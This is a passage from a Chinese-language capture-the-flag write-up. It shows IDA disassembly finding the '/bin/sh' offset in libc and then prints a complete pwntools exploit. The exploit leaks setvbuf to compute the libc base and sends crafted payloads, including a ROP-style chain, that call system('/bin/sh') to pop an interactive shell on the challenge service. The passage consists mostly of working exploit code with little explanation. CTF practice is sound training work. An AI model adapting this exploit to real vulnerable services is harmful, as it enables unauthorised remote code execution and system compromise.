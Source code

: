 <font style="color:#000000;background-color:rgba(255, 255, 255, 0);">通过IDA利用libc.so.6查找/bin/sh的交叉引用可以找的0x201500这个偏移：</font>

```plain
.data.rel.ro:00000000002014FC                 db    0
.data.rel.ro:00000000002014FD                 db    0
.data.rel.ro:00000000002014FE                 db    0
.data.rel.ro:00000000002014FF                 db    0
.data.rel.ro:0000000000201500 off_201500      dq offset aBinSh        ; DATA XREF: sub_110F20+C3↑r
.data.rel.ro:0000000000201500                                         ; sub_110F20+7B1↑r
.data.rel.ro:0000000000201500                                         ; "/bin/sh"
.data.rel.ro:0000000000201508                 align 20h
.data.rel.ro:0000000000201520 off_201520      dq offset off_201560    ; DATA XREF: argp_parse+406↑o
.data.rel.ro:0000000000201520                                         ; "version"
.data.rel.ro:0000000000201528                 dq offset sub_134960
```

<font style="color:#000000;background-color:rgba(255, 255, 255, 0);">编写exp即可获取flag：</font>

<font style="color:#000000;background-color:rgba(255, 255, 255, 0);">完整的exp：</font>

```python
from pwn import *
from pwn import p64

target_info = {
    'exec_path': './pwn',
    'elf_info': ELF('./pwn'),
    'libc_info': ELF('./libc.so.6')
}

#io = process(target_info['exec_path'])
io = remote('127.0.0.1', 8888)

#gdb.attach(io, 'b *0x40262E')
#pause()

io.recvuntil(b'gift: ')

setvbuf = {
    'got' : int(io.recvline().strip(), 16)
}
log.info(f'setvbuf@got: {hex(setvbuf["got"])}')
target_info['libc_info'].address = setvbuf['got'] - target_info['libc_info'].sym['setvbuf']
log.info(f'libc_base: {hex(target_info["libc_info"].address)}')

binsh = target_info['libc_info'].address + 0x201500
system = target_info['libc_info'].sym['system']

payload = p64(target_info['elf_info'].sym['_Z6genderv'])
io.sendlineafter(b'Girl\n', b'2')
io.sendlineafter(b'Tomboy\n', b'2')
io.sendlineafter(b'certificate\n', payload)

puts = {
    'plt': target_info['elf_info'].plt['puts'],
    'got': target_info['elf_info'].got['puts']
}

payload = p64(0)*2 + p64(binsh+8) + p64(0x000000000040391a) + p64(0) + p64(0x0000000000402fcc) + p64(system) + p64(0)*3 + p64(0x000000000040201a) + p64(0x0000000000403476)
io.sendlineafter(b'certificate\n', payload)


io.interactive()

```